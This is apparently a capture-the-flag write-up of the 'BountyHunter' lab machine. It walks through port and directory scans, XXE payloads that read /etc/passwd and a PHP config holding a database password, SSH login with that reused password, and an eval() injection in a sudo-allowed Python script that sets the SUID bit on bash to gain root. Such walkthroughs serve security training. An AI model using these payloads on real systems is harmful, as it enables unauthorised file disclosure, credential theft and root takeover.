

# Bounter_Hunter Write up

Target host: 10.10.11.100
Performed TCP portscan on host
```go
└──╼ $./rustscan -a 10.10.11.100 -- -sV -sC -A
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com

[~] The config file is expected to be at "/home/nath/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.11.100:22
Open 10.10.11.100:80
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -sV -sC -A" on ip 10.10.11.100
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-09 18:35 AEST
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:35
Completed NSE at 18:35, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:35
Completed NSE at 18:35, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:35
Completed NSE at 18:35, 0.00s elapsed
Initiating Ping Scan at 18:35
Scanning 10.10.11.100 [2 ports]
Completed Ping Scan at 18:35, 0.28s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 18:35
Completed Parallel DNS resolution of 1 host. at 18:35, 0.23s elapsed
DNS resolution of 1 IPs took 0.23s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 18:35
Scanning 10.10.11.100 [2 ports]
Discovered open port 22/tcp on 10.10.11.100
Discovered open port 80/tcp on 10.10.11.100
Completed Connect Scan at 18:35, 0.28s elapsed (2 total ports)
Initiating Service scan at 18:35
Scanning 2 services on 10.10.11.100
Completed Service scan at 18:35, 6.80s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.11.100.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:35
Completed NSE at 18:35, 11.24s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:35
Completed NSE at 18:35, 1.32s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:35
Completed NSE at 18:35, 0.00s elapsed
Nmap scan report for 10.10.11.100
Host is up, received syn-ack (0.28s latency).
Scanned at 2023-04-09 18:35:14 AEST for 19s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDLosZOXFZWvSPhPmfUE7v+PjfXGErY0KCPmAWrTUkyyFWRFO3gwHQMQqQUIcuZHmH20xMb+mNC6xnX2TRmsyaufPXLmib9Wn0BtEYbVDlu2mOdxWfr+LIO8yvB+kg2Uqg+QHJf7SfTvdO606eBjF0uhTQ95wnJddm7WWVJlJMng7+/1NuLAAzfc0ei14XtyS1u6gDvCzXPR5xus8vfJNSp4n4B5m4GUPqI7odyXG2jK89STkoI5MhDOtzbrQydR0ZUg2PRd5TplgpmapDzMBYCIxH6BwYXFgSU3u3dSxPJnIrbizFVNIbc9ezkF39K+xJPbc9CTom8N59eiNubf63iDOck9yMH+YGk8HQof8ovp9FAT7ao5dfeb8gH9q9mRnuMOOQ9SxYwIxdtgg6mIYh4PRqHaSD5FuTZmsFzPfdnvmurDWDqdjPZ6/CsWAkrzENv45b0F04DFiKYNLwk8xaXLum66w61jz4Lwpko58Hh+m0i4bs25wTH1VDMkguJ1js=
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKlGEKJHQ/zTuLAvcemSaOeKfnvOC4s1Qou1E0o9Z0gWONGE1cVvgk1VxryZn7A0L1htGGQqmFe50002LfPQfmY=
|   256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJeoMhM6lgQjk6hBf+Lw/sWR4b1h8AEiDv+HAbTNk4J3
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Bounty Hunters
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:35
Completed NSE at 18:35, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:35
Completed NSE at 18:35, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:35
Completed NSE at 18:35, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.44 seconds
```

Upon navigating to the http server open on port 80, we are presented the following page.


Performed directory scan with gobuster.
```go
===============================================================
2023/04/10 00:12:51 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 25169]
/resources            (Status: 301) [Size: 316] [--> http://10.10.11.100/resources/]
/assets               (Status: 301) [Size: 313] [--> http://10.10.11.100/assets/]   
/portal.php           (Status: 200) [Size: 125]                                     
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.100/css/]      
/db.php               (Status: 200) [Size: 0]                                       
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.100/js/] 
```

As there is not a lot information on the page and mutliple mentions of buffer overflows, as this could be one of the exploit for this machine, I made my way to the portal.

The server mentions that the portal is under development and features some sort of a CVE lookup tool.


When we open up burpsuite and intercept the request sent from the client to the server, we see the following XML.
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<bugreport>
	<title>hey</title>
	<cwe>there</cwe>
	<cvss>9.5</cvss>
	<reward>0</reward>
</bugreport>
```

As the application might be vulnerable to XXE Injection, the first thing I do is perform a google search for XXE Injection payloads.

From here I attempted testing XXE Injection payloads one by one listed on hacktricks [here](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity).

The following XML is the payload I submitted to the server before I was able to confirm that the server was vulnerable.
```go
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
  <!ENTITY file SYSTEM "file:///etc/passwd"> 
]>
<bugreport>
	<title>hey</title>
	<cwe>there</cwe>
	<cvss>9.5</cvss>
	<reward>&file;</reward>
</bugreport>
```

But before I submit the xml payload, I must first convert the xml to base64 and then urlencode the payload.
```go
PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KPCFET0NUWVBFIGRhdGEgWwogIDwhRU5USVRZIGZpbGUgU1lTVEVNICJmaWxlOi8vL2V0Yy9wYXNzd2QiPiAKXT4KPGJ1Z3JlcG9ydD4KCTx0aXRsZT5oZXk8L3RpdGxlPgoJPGN3ZT50aGVyZTwvY3dlPgoJPGN2c3M%2BOS41PC9jdnNzPgoJPHJld2FyZD4mZmlsZTs8L3Jld2FyZD4KPC9idWdyZXBvcnQ%2B
```

The following is the result upon submitting the request to the server.
```go
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```

Looking back at the hacktricks article again, there are payloads that use to exploit php filters to read php files in the /var/www/html directory.

The following payload was slightly modified to attempt to read from the db.php file we found eariler with gobuster.
```go
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
  <!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> 
]>
<bugreport>
	<title>hey</title>
	<cwe>there</cwe>
	<cvss>9.5</cvss>
	<reward>&file;</reward>
</bugreport>
```

Upon submitting the request above to the server, we received the following base64 string.
`PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=`

The following is the output below when the base64 string is decoded.
```go
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

As the Development and root are the only 2 users that we can log into with a bash shell and or ssh, we can safely assume that the password above can be used for either of the 2 users.

Login was successful with the development user.
```go
development@10.10.11.100's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 09 Apr 2023 02:23:34 PM UTC

  System load:           0.0
  Usage of /:            28.3% of 6.83GB
  Memory usage:          33%
  Swap usage:            0%
  Processes:             215
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.100
  IPv6 address for eth0: dead:beef::250:56ff:feb9:bcca


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun Apr  9 07:58:19 2023 from 10.10.16.3
```

Upon logging into the machine, the first thing I do is try to evelvate myself to root with `sudo -l`.
```go
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

The output above shows that we can python3.8 as root so long as we execute a python script in `/opt/skytrain_inc/ticketValidator.py`

When we open `ticketValidator.py` we see the following code below.
```python
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

Navigating to the `/opt/skytrain_inc/invalid_tickets` directory, we find a directory full of so called `invalid tickets` that we can use to get a visual idea on how the code above works.

This is an example of one of the invalid tickets
```go
# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**31+410+86**
##Issued: 2021/04/06
#End Ticket
```

However the only line of code we need to analyze in the script is the following.
```python
ticketCode = x.replace("**", "").split("+")[0]
if int(ticketCode) % 7 == 4:
    validationNumber = eval(x.replace("**", ""))
    if validationNumber > 100:
        return True
    else:
        return False
```

When the first line in the script executes, it splits each integer into an array of ints `31, 410, 86`.

It then takes each int and uses modus operator to divide it and checks if there are 4 remainders. This is easy, all you do make any one of the integers divisible by 7 and add 1.

The third line then replaces characters blocks of `**` with nothing and the eval function then executes any code on that line. Why it is that the developer decided to include this function is beyond me, but we can use this to get a root shell.

The following is a modified ticket that uses the global import function to execute whoami. When executed with sudo, this should result in root.

```go
# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**732+732+732+__import__("os").system('whoami')**
##Issued: 2021/04/06
#End Ticket
```

If we modify the ticket again to the ticket below, we can give bash the S permission that will allow us to elevate our current shell to root.

```go
# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**732+732+732+__import__("os").system('chmod +s /bin/bash')**
##Issued: 2021/04/06
#End Ticket
```

The following output below verifies that elevating to root was successful.
```go
-bash-5.0$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
ticket.md
Destination: New Haven
Valid ticket.

-bash-5.0$ /bin/bash -p
bash-5.0# whoami
root
```
